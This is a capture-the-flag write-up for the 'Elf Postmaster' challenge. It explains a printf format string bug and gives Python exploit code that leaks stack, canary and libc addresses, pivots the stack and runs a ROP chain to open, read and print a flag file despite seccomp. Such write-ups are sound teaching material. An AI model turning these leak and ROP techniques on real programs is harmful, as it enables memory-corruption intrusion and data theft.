 # The Elf Postmaster

A quick look in Ghidras decompiled code for the main function tells us, that we are dealing with a format string vulnerabilty.

The first one:
```C++
    fgets(local_118,0x100,stdin);
    printf("Oh, greetings ");
    printf(local_118);
```

And the second one in a lopp:

```C++
    fgets(local_118,0x100,stdin);
    printf("Okok, I am taking notes, so you said: ");
    printf(local_118);
```

`local_118` is directly under our control, so lets send a lot of %p's to get the infos out (`p.sendline("%p" * 80`)! The interesting values were at position 30, 39, 40 and 41 and the rest could be calculated (we know from the Dockerfile that we are dealing with Ubuntu 18.04).

```python
payload = "%30$p %39$p %40$p %41$p"
p.sendline(payload)
p.recvuntil("Oh, greetings ")
stack, canary, binbase, ret = p.recvline().rstrip().split(" ")

stack    = int(stack, 16)  #some address from the stack
rsp      = stack - 0x128   #address of stackpointer
ret_addr = stack - 0xd8    #address of ret(2libc)
ret      = int(ret, 16)    #ret value
libcbase = ret - 0x21b97;  #libc base calculation for ubuntu 18.04
binbase  = int(binbase , 16) - 0xc00 
canary   = int(canary, 16)
```

The write function, writes the second parameter relative to the leaked address to the stack. 
I get some weird crashes due to the Ubuntu 18.04 16-byte Stack-Alignment-Restriction on memory operations, so I shift the rsp around to get rid of it.

```python
write(-0x10, (libcbase + POP_RSP_OFFSET), 32)      # -0x10 is the location of ret address
write(-0x08, (rsp + 0x40), 48)                     # New StackPointer 16-Byte aligned
```

There was a Seccomp restrction enabled, so we only could use a few syscalls and all the fancy shell opening ones were missing. But it's a CTF so we want to get the content of a file. Open and read weren't restricted and we know that the file was locatead at `/home/ctf/flag.txt` (or later chrooted to `/flag.txt`).

The only thing left is open the file, read it and print the content. 
Flag captured!

```python
payload = "A" * 0x10 + "/flag.txt\x00" + "A" * 30  
payload += p64(libcbase + RET_OFFSET)                   

# Open File
payload += p64(libcbase + POP_RDI_OFFSET)          
payload += p64(rsp + 0x10) # 1                     
payload += p64(libcbase + POP_RDX_RSI_OFFSET)      
payload += p64(0x00) # 3
payload += p64(0x00) # 2
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + OPEN_OFFSET)   

# Read File
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + POP_RDI_OFFSET)
payload += p64(0x03) # 1
payload += p64(libcbase + POP_RDX_RSI_OFFSET)
payload += p64(0x40) # 3
payload += p64(stack + 0x8) 
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + READ_OFFSET)

# Print Flag
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + POP_RAX_OFFSET)
payload += p64(binbase + 0xb4c)
payload += p64(libcbase + MOV_RDI_RSI_OFFSET)

p.sendline(payload)

p.sendline("end of letter")
p.recvuntil("year!")

print "\n"
flag = p.recvuntil("}")
print flag
print "\n"
```
